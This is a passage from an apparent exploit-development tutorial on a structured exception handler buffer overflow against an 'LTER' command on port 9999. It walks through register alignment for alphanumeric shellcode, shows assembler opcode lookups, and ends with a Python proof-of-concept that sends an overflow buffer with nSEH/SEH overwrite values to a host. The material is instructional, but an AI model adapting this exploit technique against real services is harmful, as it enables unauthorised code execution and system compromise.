 ##### The order of these alignments would be the following:

+ The value of ESP is inserted into EAX in order to perform calculations, and in EBX, just as a backup when it is time to execute the shellcode, as if the ESP has a similar address, it may execute your shellcode, but it will definitely crash the execution!

+ It will be added to ax as much as needed in order to reach near the end of the buffer.

+ This value is popped into ESP.

+ The value of EBX is pushed into the stack and then popped into EAX in order to make calculations take less bytes.

+ EAX is aligned into the pure alphanumeric shellcode.

+ This value is popped into ESI.

+ The SUB/ADD encoded series of 4 instructed will be sent: PUSH EBX, POP ESP; PUSH ESI, RET. This will push the value of EBX into the stack and pop it into ESP, and after that pushing ESI into the stack and then return the address through RET. 

##### Getting the opcodes for PUSH ESP, POP EAX; PUSH ESP, POP EBX. Also, i made sure to no longer use C's as their instruction is INC EBX, this would mean that the value of EBX would be constantly incremented, something we do not want, right?

```term
root@whitecr0wz:~# msf-nasm_shell 
nasm > PUSH ESP
P00000000  54                push esp
nasm > POP EAX
00000000  58                pop eax
nasm > PUSH ESP
00000000  54                push esp
nasm > POP EBX
00000000  5B                pop ebx
nasm > 
```

###### PoC code:

```term
import socket, sys, struct

alignment = ""
alignment += "\x54\x58\x54\x5B"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3515 + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```
